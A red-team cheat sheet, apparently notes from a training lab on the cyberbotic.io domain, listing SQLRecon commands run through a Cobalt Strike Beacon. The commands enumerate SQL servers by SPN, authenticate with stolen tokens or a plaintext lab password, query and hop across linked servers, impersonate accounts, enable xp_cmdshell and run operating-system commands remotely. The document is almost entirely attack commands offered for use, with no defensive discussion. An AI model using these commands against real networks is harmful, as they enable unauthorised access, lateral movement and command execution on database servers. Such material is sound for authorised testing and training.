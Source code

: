 [GitHub Link](https://github.com/skahwah/SQLRecon)


## Enumerate Servers via SPNs

---

Enumerates SQL servers by SPNs.

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
```


##  Enumerate SQL Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Enumerate Current Roles

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Gaining Access to SQL Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```


## Query SQL Database

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
```

### Query Linked Servers

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```


## Impersonate Accounts on an Instance

---

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

### Run Modules

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```

### xp_cmdshell Interaction

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
```

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lxpcmd /i:DEV\mssql_svc /l:sql-1.cyberbotic.io /c:ipconfig
```

## Enumerate Links for an Instance

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

## Enumerate Linked Servers for More Links

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
```

## Enumerate Linked Servers

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```